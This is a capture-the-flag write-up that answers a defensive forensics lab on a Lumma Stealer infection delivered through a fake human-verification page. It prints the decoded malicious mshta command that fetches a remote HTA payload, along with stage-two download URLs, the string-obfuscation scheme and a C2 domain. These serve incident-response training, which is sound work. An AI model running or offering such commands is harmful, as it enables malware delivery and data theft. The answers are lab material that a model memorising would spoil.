

# LummaStealer - Angry Likho Lab

- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)

# Context

**Lab Link**: [https://cyberdefenders.org/blueteam-ctf-challenges/lummastealer-angry-likho/](https://cyberdefenders.org/blueteam-ctf-challenges/lummastealer-angry-likho/)

**Suggested Tools**: Event Log Explorer, Event Viewer, CyberChef, DB Browser for SQLite, VirusTotal, Wireshark

**Tactics**: Initial Access, Execution, Privilege Escalation, Defense Evasion

# Scenario

Lumma Stealer is a powerful malware written in C that secretly steals a wide range of data from infected systems. This MaaS (Malware-as-a-Service) tool has quickly become known for its ability to target and steal important information like cryptocurrency wallets, browser data, email credentials, financial details, personal files, and FTP client data. It uses advanced techniques like controlled data writing and encryption to avoid detection and increase its effectiveness. A new and sophisticated method of distributing Lumma Stealer malware has been uncovered, targeting Windows users through deceptive human verification pages.

You have been given a disk triage from a machine that has fallen victim to this new attack. Your task is to analyze the malware and determine exactly what occurred on the machine.

# Questions

Q1- The victim has been deceived into executing an encoded PowerShell command on his device. What is this command in its decoded form?

**Answer**: `mshta` "hxxps://clicktogo.click/uploads/tra15"

**Explanation**: Decode the Base64 PowerShell (it’s UTF-16LE/“Unicode”, so set the decoder to UTF-16LE in CyberChef). The decoded command uses the trusted Windows binary **mshta.exe** to retrieve and execute an HTA payload directly from a remote URL (a classic “living off the land” technique).

**Encoded PS script found in PS event log in Event Log Explorer**

**CyberChef decoding the PS script with UTF-16LE (1200) encoding**

Q2- What is the MITRE ATT&CK sub-technique ID for the technique used by the malware sample to download and execute its payload through a trusted system utility in the previous PowerShell command?

**Answer**: T1218.005

**Explanation**: The decoded command leverages **mshta.exe** (a signed Microsoft utility) to execute attacker-controlled content. In MITRE ATT&CK this maps to **System Binary Proxy Execution: Mshta (T1218.005)**.

Q3- The victim was tricked by a fake verification website while browsing the internet. What is the URL of the malicious website to which the PowerShell command belongs?

**Answer**: hxxps://check-robot.b-cdn.net/Done-Captcha.html

**Explanation**: Correlate the timestamp of the PowerShell execution (from the PowerShell/Operational log) with the browser history timestamps (Edge’s History SQLite DB). The matching visit around that time identifies the specific verification page that delivered the “copy/paste this command” lure.

Q4- In the second-stage of the malware execution, it downloads an additional file. What is the name of this file?

**Answer**: tera15.zip

**Explanation**: After decrypting/unpacking the stage-two PowerShell, the script constructs a download URL and writes a ZIP archive to disk. The archive name stands out clearly in the script logic even before fully deobfuscating the rest of the code.

Q5- What is the URL from which the above file was downloaded?

**Answer**: hxxps://clicktogo.click/uploads/tera15.zip

**Explanation**: The stage-two script hides strings as a comma-delimited list of ASCII codes. Subtract **21** from each value, then convert the resulting integers back to characters (CyberChef: “From Charcode”, comma delimiter). The reconstructed string yields the full download URL.

Q6- The malware performs process hollowing on a legitimate system process to evade detection. What is the name of this process?

**Answer**: BitLockerTogo.EXE

**Explanation**: The ZIP is downloaded into the victim user’s Temp directory and extracted, yielding the payload executable (e.g., `chkbkx.exe`). Reviewing the extracted file’s hash in VirusTotal (Behavior / Process tree) shows it performs **process hollowing** into a legitimate Windows process; the target process name is reported there.

Q7- Monitoring the malware's network activity can reveal the domains it intends to connect to. What is the first domain it attempts to connect to?

Answer: votteryloeq.shop

**Explanation**: This can be confirmed in VirusTotal under **Network Communication / DNS** (or similar), where the first outbound domain observed during dynamic analysis is listed.

